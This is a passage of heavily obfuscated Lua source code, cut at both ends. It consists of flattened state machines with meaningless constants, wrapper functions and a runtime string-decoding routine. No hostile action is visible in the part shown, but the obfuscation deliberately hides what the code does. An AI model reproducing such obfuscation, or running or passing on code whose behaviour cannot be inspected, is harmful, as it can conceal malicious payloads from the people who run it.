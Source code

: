 c[843]='F45vHgZd56'c[637]=false;d=185.74264398294542;I=f(110,81,74,49,97,87,65,55,76,85,73)a=435;c[337]='xQtNpSnvz4'b=189.8094194652556;break end end  end;do if(a*62==38440)then do while(a+310==930)and((d==339.980795830914)and(b==591.8642547501297))do b=129.32522276807595;c[637]=false;a=0;d=309.6639979356263;c[337]='ORn38eLOHN'c[843]='je4OV2zW68'break end end  end end ;do if(a*0==0)then do while(a+0==0)and((d==309.6639979356263)and(b==129.32522276807595)and(c[637]==false)and(c[843]=='je4OV2zW68')and(c[337]=='ORn38eLOHN'))do I=f(80,97,80,76,110,81,118,112,110,80,111)b=85.74989868417067;c[337]='rw6fovu3Ag'd=20.07504135804734;c[637]=false;a=791;c[843]='03EtgULwB7'break end end  end end ;do if(a*43==18576)then do if((d==5.590838800842684)and(b==91.14354966981467)and(c[637]==false)and(c[843]=='6MX71QdSsn')and(c[337]=='lZQdBa9pfI'))and(a+216==648)then a=943;c[843]='tz3d3TeLWy'c[637]=false;c[337]='boTu7sfgcP'I=f(98,115,113,81,84,107,83,114,111,109,111)b=455.313213872617;d=109.85018641958183 end end  end end ;do if(a*43==18705)then while(a+217==652)and((d==185.74264398294542)and(b==189.8094194652556)and(c[637]==false)and(c[843]=='F45vHgZd56')and(c[337]=='xQtNpSnvz4'))do c[637]=false;b=30.413630913581283;I=f(103,65,75,118,49,88,79,106,74,82,115)c[843]='LaOHDq1GRx'c[337]='y2mX4TQadd'a=486;d=31.220999196950842;break end end end ;if(a*23==5359)then if(a+116==349)and((d==82.8986951271733)and(b==110.23072344588869)and(c[637]==false)and(c[843]=='k1Ps2sIW7p')and(c[337]=='TRKpC23Toa'))then b=591.8642547501297;d=339.980795830914;a=620 end end end end  end;local K=5885;local L=449;do while(K>(L-10))do L=(K+3789)*2;do while(K<L)do L=K-38696;do while(K>(L-10))do L=(K+3550)*2;do while(K<L)do L=K-37740;G=function(a,...)return y(a,J,...)end end end ;do if K>(L-11770)then L=(K+11770)i=function(...)return A(...,I)end end end  end end ;if(11770-K)<(L+5894)then K=((L+5885)*2)F=function(a,...)return w(a,J,...)end end end end ;do if K>(L-94160)then L=(K+11770)E=function(a,...)return w(a,I,...)end end end  end end ;do local a=314.6289986091;local b={}local c=251.17997800320975;local d=418;repeat do if(d*0==0)then while(d+0==0)and((a==810.8890497410406)and(c==153.1966196985022)and(b[444]==false)and(b[514]=='7jlv4yFY7g')and(b[453]=='SK6mudFouK'))do b[444]=false;b[453]='To6BRquhWN'd=416;J=95;b[514]='uM9W6HZVcK'c=192.2202128504795;a=354.4321483789078;break end end end ;do if(d*41==17138)then if(d+209==627)and((a==314.6289986091)and(c==251.17997800320975))then a=810.8890497410406;b[514]='7jlv4yFY7g'c=153.1966196985022;b[444]=false;d=0;b[453]='SK6mudFouK'end end end ;do if(d*41==17056)then if((a==354.4321483789078)and(c==192.2202128504795)and(b[444]==false)and(b[514]=='uM9W6HZVcK')and(b[453]=='To6BRquhWN'))and(d+208==624)then d=304;a=44.629548874140184;b[444]=false;J=99;c=56.02254034982123;b[453]='4bkRCwRKj5'b[514]='8NFmuWZ5oL'end end end ;do if(d*0==0)then do if((a==73.01935319360419)and(c==702.6068140681293)and(b[444]==false)and(b[514]=='QHehQ7fCe6')and(b[453]=='Gl3oWiiW94'))and(d+2==7)then break end end  end end ;if(d*30==9120)then do while((a==44.629548874140184)and(c==56.02254034982123)and(b[444]==false)and(b[514]=='8NFmuWZ5oL')and(b[453]=='4bkRCwRKj5'))and(d+152==456)do J=21;d=809;b[444]=false;b[453]='IvMDvD8dsC'a=153.31229352182228;b[514]='7riQZHg0OT'c=50.72871296297444;break end end  end;do if(d+50==151)and((a==150.74494971817145)and(c==18.28299460409557)and(b[444]==false)and(b[514]=='5wnwU0iUw1')and(b[453]=='cn8qvh2bl7'))then a=73.01935319360419;d=5;b[444]=false;b[514]='QHehQ7fCe6'J=114;b[453]='Gl3oWiiW94'c=702.6068140681293 end end ;do if(d*80==64720)then if((a==153.31229352182228)and(c==50.72871296297444)and(b[444]==false)and(b[514]=='7riQZHg0OT')and(b[453]=='IvMDvD8dsC'))and(d+404==1213)then J=88;a=545.2322379659986;b[453]='M8h8NDMqY2'b[514]='4QEuljVXUV'd=221;c=273.14586698143455;b[444]=false end end end ;do while((a==545.2322379659986)and(c==273.14586698143455)and(b[444]==false)and(b[514]=='4QEuljVXUV')and(b[453]=='M8h8NDMqY2'))and(d+110==331)do d=101;c=18.28299460409557;b[444]=false;b[453]='cn8qvh2bl7'b[514]='5wnwU0iUw1'a=150.74494971817145;J=14;break end end ;do if(d*87==76038)then while(d+437==1311)and((a==60.52657483802864)and(c==16.591290640567536)and(b[444]==false)and(b[514]=='sj8HJiaqq2')and(b[453]=='9XFxQADvWW'))do d=418;a=314.6289986091;c=251.17997800320975;break end end end  until(false)end;H=A({23,89,6,24,61,3,34,2,8,46,62,62},"\113\52\104\80\83\66\67\68\71\77\84\120")local y=d(f(1))a["_xl_Il8302y985L3_5"]=function(b,c)local e=f()local f=y;for h=y,#b do local b=q(d(b,h),d(c,f))e=g(((a[1919742])),e,o(r,b)or b)f=f+y;f=(f>#c and y)or f end;return e end;local g=a[i({61,11,29,14,29,7,107,65,95,95,22,91,75,68,29,103,52,102})]local o=function(a,b)do if(b>=h)then return u(a,B(1,b),5324113)else return u(a,B(1,-b),796569)end end  end;return(function(y)do if false then do while y do y=38.70551400707114 end end  else local A,B,K;A=(A or 0)do for a,a in l(y)do A=(A or 0)+1 end end ;do if(A<2)then return("quWigtfe")end end ;do local b=301.374089165053;local c=228.1656434758624;local d={}local e=683;do for f in(function()return 217 end)do if(e*0==0)then do while(e+3==9)and((c==147.19585481066292)and(b==151.41574747103053)and(d[420]==false)and(d[774]==(a[6716856]))and(d[716]==(a[4684885])))do d[420]=false;d[716]=(a[6852391])c=218.28840376151783;d[774]=(a[3125423])B=y[1]e=643;b=156.51157504694194;break end end  end;do if(e*68==46444)then do while((c==228.1656434758624)and(b==301.374089165053))and(e+341==1024)do e=0;b=534.7727897884748;d[716]=(a[6994125])d[774]=(a[8692993])d[420]=false;c=688.411537754708;break end end  end end ;if(e+0==0)and((c==688.411537754708)and(b==534.7727897884748)and(d[420]==false)and(d[774]==(a[8692993]))and(d[716]==(a[6994125])))then d[716]=(a[4684885])e=6;d[420]=false;K=y[2]c=147.19585481066292;b=151.41574747103053;d[774]=(a[6716856])end;if(e*2==48)then do